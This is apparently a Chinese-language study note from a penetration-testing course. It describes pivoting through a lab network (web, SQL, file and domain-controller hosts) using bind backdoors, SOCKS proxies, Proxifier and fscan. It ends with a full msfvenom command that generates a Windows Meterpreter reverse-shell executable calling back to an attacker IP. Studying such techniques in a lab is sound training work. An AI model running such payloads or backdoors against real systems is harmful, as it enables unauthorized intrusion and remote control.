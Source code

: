 ![1732347798808](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732347798808.png)

运行4444.exe后，发现sql机主动开了一个4444端口（等待别人来连接）：

![1732347820581](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732347820581.png)

然后用 cs控制Web主机连接sql机：

![1732347931397](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732347931397.png)

sql主动找的web，间接找的kali    ------------ 这就是正向

![1732347999544](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732347999544.png)



### xd视频演示：

kali （攻击机）刚开始只能与web主机进行通信，然后上传后门到web主机上线操作，控制得到权限后，因为kali 不能与sql主机进行通信，但是web主机可以与sql进行通信（上图），所有可以kali通过控制web主机（connect 192.168.2.22 4444）连接sql主机。

![1732287156916](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732287156916.png)

在sql主机上也有一个后门点击会打开自己的4444端口等待连接

40min  file主机开了一个ftp服务，还是改proxifier，通过ftp拿到file主机权限（这里过程粗略跳过），

连接file主机一样过程：socks代理----proxifier代理（这里注意：配置的服务器还是c2（kali）,更改的是端口和代理规则的目标主机ip--192.168.3.*-----fscan扫-------上正向后门）后面一样

连接DC：

还是先建立socks代理（开一个节点）                                      这里遮住的是192.168.3.22（file主机）

![1732287986076](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732287986076.png)

接下来配置proxifier

1:	

![1732288157910](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732288157910.png)

2:

![1732288132353](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732288132353.png)



下来还是用fscan进行扫描。后面一样。

59min 

### msf：

linux中的Proxifie是Prixychains。

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.139.128 LPORT=3333 -f exe -o msf.exe  生成一个反向连接后门
